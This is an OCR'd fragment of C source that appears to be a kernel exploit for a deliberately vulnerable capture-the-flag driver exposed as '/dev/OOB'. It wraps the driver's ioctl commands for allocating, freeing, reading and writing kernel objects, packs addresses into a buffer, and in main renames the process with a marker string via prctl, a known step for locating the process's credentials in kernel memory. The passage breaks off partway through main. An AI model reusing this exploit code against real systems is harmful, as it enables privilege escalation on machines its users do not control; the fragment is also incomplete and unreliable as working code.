 ```c
{
    size_t input[4];
    input[0] = idx;
    input[1] = (size_t)ini_buf;
    ioctl(fd,MallocCmd,input);
    return;
}

void Free(int fd,unsigned int idx)
{
    size_t input[4];
    input[0] = idx;
    ioctl(fd,FreeCmd,input);
    return;
}

void Read(int fd,size_t obj_idx,size_t addr_idx,size_t size)
{
    size_t input[4];
    input[0] = obj_idx;
    input[1] = (size_t)usr_buf;
    input[2] = size;
    input[3] = addr_idx;
    ioctl(fd,ReadCmd,input);
}

void Write(int fd,size_t obj_idx,size_t addr_idx,size_t size)
{
    size_t input[4];
    input[0] = obj_idx;
    input[1] = (size_t)usr_buf;
    input[2] = size;
    input[3] = addr_idx;
    ioctl(fd,WriteCmd,input);
}

void LongToStr(unsigned long long addr)
{
    unsigned long long high_4 = addr >> 32;
    unsigned long long low_4 = addr & 0xffffffff;
    usr_buf[0] = low_4 & 0xff;
    usr_buf[1] = (low_4 & 0xffff) >> 8;
    usr_buf[2] = (low_4 >> 16) & 0xff;
    usr_buf[3] = (low_4 >> 16) >> 8;
    usr_buf[4] = (high_4 & 0xff);
    usr_buf[5] = (high_4 & 0xffff) >> 8;
    usr_buf[6] = (high_4 >> 16) & 0xff;
    usr_buf[7] = (high_4 >> 16) >> 8;
    usr_buf[8] = 0;
    usr_buf[9] = 0x10;
}


int main()
{
    char hidden_str[0x10];
    strncpy(hidden_str,"ama2in9PwnForMe\x00",0x10);
    prctl(PR_SET_NAME,hidden_str);
    int fd = open("/dev/OOB",0);
    if(fd == -1)
        printf("[-]open failed!\n");
    char ini_buf[0x100] = {0};
    Malloc(fd,0,ini_buf);
```